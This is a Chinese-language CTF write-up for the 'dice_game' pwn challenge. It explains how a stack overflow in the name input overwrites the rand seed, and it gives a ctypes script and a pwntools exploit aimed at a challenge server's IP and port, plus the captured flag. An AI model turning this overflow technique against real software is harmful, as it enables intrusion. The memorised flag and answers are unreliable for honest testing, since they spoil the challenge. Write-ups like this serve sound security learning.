


# dice_game

这道题我之前做过类似的，所以思维完全被带到之前的做法了，完全没有注意到环境的不一样。

场景是一个nc地址，附件里有libc和程序。checksec程序发现配置还挺豪华，除了canary全开了。

-    Arch:     amd64-64-little<br>RELRO:    Full RELRO<br>Stack:    No canary found<br>NX:       NX enabled<br>PIE:      PIE enabled

看名称感觉是个猜数字的挑战，反编译程序也发现确实如此。


看到srand我的DNA就动了，C语言随机数这类的题之前做过了，起码有点思路了。FUN_00100a20是判断猜的数字对不对的函数。



又看见了第二个熟悉的面孔：rand。这俩玩意在一起出现基本就是考随机数了。所以我下意识认为这是一个预测随机数的题，因为main里面似乎是使用了当前时间作为srand的种子，那么我只要在刚刚连上nc后再在本地自己跑一个c程序提前拿到答案就行了。

事实证明不行。我忽略了一个很重要的点：第一我本地使用的并不是提供的libc，第二使用的种子可能不单纯只是时间（这点不确定，毕竟逆向出来的代码有点难判断）。所以只能找点别的办法了。

上面的豪华配置少了个canary，而canary又是为了防止栈溢出的。回头看了下接收名字输入的地方，0x50的大小。可是上面明明写着local_58只有6个byte那么大啊？看来是栈溢出没跑了。既然是栈溢出，那我们就要看看溢出的目标是啥。



随机数所使用的种子是local_18,我们的输入是local_58。local_18在stack-0x18,local_58在stack-0x58，那么两者就间隔0x40。所以我们要填充0x40个没用的byte才能到local_58，最后再接上一个我们想要改的值就行了，比如0或者1。这里由于我本地环境无法使用python的ctypes库，所以只能先把答案提前打印出来。

```python
from ctypes import *
libc=cdll.LoadLibrary("libc.so.6")
answers=[]
for i in range(50):
    answers.append(libc.rand()%6+1)
print(answers)
```

- ### ctypes
- > Python 的外部函数库。它提供了与 C 兼容的数据类型，并允许调用 DLL 或共享库中的函数。无需第三方安装。

- ### cdll.LoadLibrary()
- > 导入指定文件名的共享库

嗲用cdll.LoadLibrary后我们就可以使用里面的函数了，具体就是对象名.调用的函数。这里没有播种直接使用rand得操作和srand播种0或者1的结果是一样的。

最后exp使用了python的pwntools库，这是一个在python下很好用的pwn第三方模块。

```python
from pwn import *
payload=b'A'*0x40+p64(1)
answers=[2, 5, 4, 2, 6, 2, 5, 1, 4, 2, 3, 2, 3, 2, 6, 5, 1, 1, 5, 5, 6, 3, 4, 4, 3, 3, 3, 2, 2, 2, 6, 1, 1, 1, 6, 4, 2, 5, 2, 5, 4, 4, 4, 6, 3, 2, 3, 3, 6, 1]
proc=remote('61.147.171.105',62201)
proc.sendlineafter("Welcome, let me know your name:",payload)
for i in answers:
    print(proc.recv())
    proc.sendline(str(i))
print(proc.recvall())
```

- ### Flag
- > cyberpeace{9676b83ce7efcc02756df66432d6be97}

